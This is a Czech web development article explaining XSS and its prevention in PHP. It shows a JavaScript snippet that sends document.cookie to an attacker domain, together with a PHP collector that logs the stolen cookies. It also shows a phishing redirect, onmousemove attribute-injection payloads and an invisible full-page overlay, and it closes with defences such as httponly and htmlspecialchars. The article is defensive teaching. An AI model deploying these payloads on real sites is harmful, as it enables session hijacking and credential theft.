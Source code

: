 ```yaml
---
title: "Využití XSS díry"
headline: "Využití XSS chyby"
description: "Jak je možné využít XSS díru na webové stránce a jak XSS „opravit“."
date: "2014-06-12"
last_modification: "2014-06-17"
status: 1
tags: ["Bezpečnost"]
---
```


XSS (Cross-site scripting) je metoda využívající [bezpečnostní](/bezpecnost) chyby webu, konkrétně nedostatečné ošetření dat.

Typicky spočívá ve vložení škodlivého JS kódu. Útok bývá často podceňován, přestože přináší **obrovská risika**.

    **Krádež cookie** – JavaScript má často přístup k datům identifikujícím přihlášeného uživatele. Obsah cookie je v `document.cookie`.

    Útočník vložením škodlivého kódu *pingne* skript na vlastním webu s předanou hodnotou cookie. Potom už stačí, aby napadenou stránku **navštívil administrátor** – jeho cookie se tak pošle útočníkovi. Zákeřnost tohoto útoku spočívá ve skutečnosti, že je velmi obtížné si napadení všimnout. Na venek se web chová normálně.

    Příklad JS kódu, který je potřeba dostat na server.

    ```
var ping = new Image();
ping.src = "http://domena-utocnika.cz/?" + 
            encodeURI(document.cookie);
```

    PHP skript pro uložení obsahu:

    ```
file_put_contents(
	"cookies.txt", 
	$_SERVER["QUERY_STRING"] . "\n", 
	FILE_APPEND
);
```

    Přístupu k obsahu cookie z JS **lze zabránit** nastavením jako *httponly* v PHP funkci [`setcookie`](http://cz2.php.net/manual/en/function.setcookie.php) nebo [`session_set_cookie_params`](http://cz2.php.net/manual/en/function.session-set-cookie-params.php).

    **Přesměrování na vlastní web** – v případě, že cookie k přihlášení nestačí, nebo je cílem získat hesla, dá se použít technika *phishingu*. Přesměrovat návštěvníka webu JavaScriptem na vlastní stránku s **přihlašovacím formulářem** zkopírovaným z originální stránky.

    ```
window.location = "http://domena-utocnika.cz";
```

    **Modifikace stránky** – jelikož JS má takřka neomezenou moc v manipulaci s webovou stránkou, může útočník využitím XSS díry za účelem výdělku přidat na děravou stránku **reklamu**, **affiliate odkazy** a podobně.

    **Poškození dobrého jména** – vložením spojení na nějaký podezřelý web může stránce přiřknout ve vyhledávačích označení jako malware.

## Příklad útoku

### Interpretace HTML značek

V případě, že se obsah, který může ovlivnit návštěvník, vypisuje včetně HTML značek, není problém přidat kus škodlivého JavaScriptu.

```
&lt;script>
alert("XSS");
&lt;/script>
```

Potřebujeme-li umožnit vkládat HTML značky, nezbývá než použít nějaký nástroj pro [pročištění kódu](/vycisteni-kodu), kde jde přímo vyjmenovat povolené HTML značky a atributy.

Není-li potřeba HTML značky interpretovat, postačí PHP funkce `htmlspecialchars`.

### Interpretace v HTML atributech

Méně známý problém je obsah v **HTML atributech**. V PHP existuje funkce `strip_tags`, která slouží k odstranění všeho, co vypadá jako HTML značka (tedy i třeba smajlíka `&lt;3` nebo výrazu `a&lt;b`, což bývá nežádoucí).

Zásadní problém této funkce tkví v neodstraňování atributů. Použitím `strip_tags` a povolení byť jen jediné HTML značky **vznikne XSS díra**.

Škodlivý JavaScript je totiž možné vkládat i do různých `onNěco` událostí:

```
&lt;b onmousemove='alert("XSS")'>&lt;b>
```

Funkce `strip_tags` nastavená na povolení tučného písma (značka `&lt;b>`) tento kód nechá beze změn.

Jelikož `strip_tags` ponechá i *inline* styly, může útočník výše uvedený HTML kód naposicovat přes celou stránku s průhledným pozadím. A po provedení škodící akce element zrušit, aby se web nechoval podezřele.

```
&lt;span 
onmousemove="alert('XSS'); this.parentNode.removeChild(this)" 
style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: transparent">
&lt;/span>
```

[Živá ukázka](http://kod.djpw.cz/gxdb)

Při vypisování obsahu **uvnitř HTML atributů** je tedy nutné myslet na to, že když v kódu:

```
&lt;h1 title='**%vypis%**'>Nadpis&lt;/h1>
```

Nahradíme `%vypis%` řetězcem `' onmousemove='alert("XSS")`, vznikne:

```
&lt;h1 title='' onmousemove='alert("XSS")'>Nadpis&lt;/h1>
```

Což je funkční a **nebezpečný výsledek**.

## Obrana před XSS

Důsledná obrana proti XSS spočívá v ošetřování všech dat, která se vypisují na stránce.

V PHP je k tomu možné použít funkci `htmlspecialchars`:

```
$text = htmlspecialchars($text, ENT_QUOTES);
```

Uvedení `ENT_QUOTES` zajistí právě ochranu v HTML atributech – tj. nenechá atribut uzavřít jednoduchou nebo dvojitou uvozovkou, což zabrání zapsání škodlivých `onNěco` atributů.

Výše uvedené použití funkce `htmlspecialchars` nahradí entitami všechny řídicí HTML znaky: `&lt;`, `&gt;`, `&amp;`, `&quot;` a `'`.

Ošetření výstupu je nutné použít i u všelijakých **administrátorských akcí**. Mohlo by se stát, že by útočník administrátora odkázal na URL, kde by byl kus **škodlivého JS kódu**, který by se bez ošetření po prokliknutí provedl.
